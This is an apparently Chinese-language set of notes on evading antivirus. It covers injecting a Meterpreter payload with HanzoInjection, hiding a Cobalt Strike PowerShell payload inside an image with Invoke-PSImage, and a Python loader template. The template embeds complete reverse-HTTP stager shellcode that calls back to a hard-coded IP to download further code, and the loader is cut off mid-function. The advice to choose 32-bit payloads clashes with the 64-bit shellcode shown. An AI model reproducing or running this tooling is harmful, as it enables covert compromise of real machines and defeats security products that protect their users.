### 1.HanzoInjection 方法

​    `HanzoInjection.exe -e payload_meterpreter.bin`bin是二进制文件，最好不要使用64位的payload，因为很多的免杀文件都不支持64位的文件。

![image-20201115090819014](https://i.loli.net/2020/12/27/V4Dmhs5zy7vqp2f.png)

https://github.com/P0cL4bs/hanzoInjection

### 2.Invoke-PSImage

下载地址:https://github.com/peewpw/Invoke-PSImage

```bash
Powershell -ExecutionPolicy Bypass 允许导入脚本

Import-Module .\Invoke-PSImage.ps1 导入脚本

Invoke-PSImage -Script .\payload.ps1 -Image .\test.jpg –Out test2.png –Web
```

用cs生成payload payload.ps1 、

然后会给你一段利用的代码，这个时候选择生成的图片用cs做一个文件下载，然后选择那个图片，将其中的url替换一下，然后执行即可

## 3.python免杀

生成payload,注意不要选择64位，一定要选32位

模版

```
from ctypes import *
import ctypes
# length: 614 bytes
buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\xe8\x80\x00\x00\x00\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x42\x4f\x49\x45\x39\x3b\x45\x4e\x55\x53\x4d\x53\x43\x4f\x4d\x29\x00\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x00\x59\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x61\x5a\x48\x89\xc1\x41\xb8\xd2\x04\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x44\x48\x89\xc1\x48\x31\xd2\x41\x58\x4d\x31\xc9\x52\x68\x00\x02\x60\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x6a\x0a\x5f\x48\x89\xf1\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x75\x1d\x48\xff\xcf\x74\x10\xeb\xdf\xeb\x63\xe8\xb7\xff\xff\xff\x2f\x53\x39\x70\x61\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\xc3\xe8\x35\xff\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x36\x31\x2e\x31\x36\x30\x00"
#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
```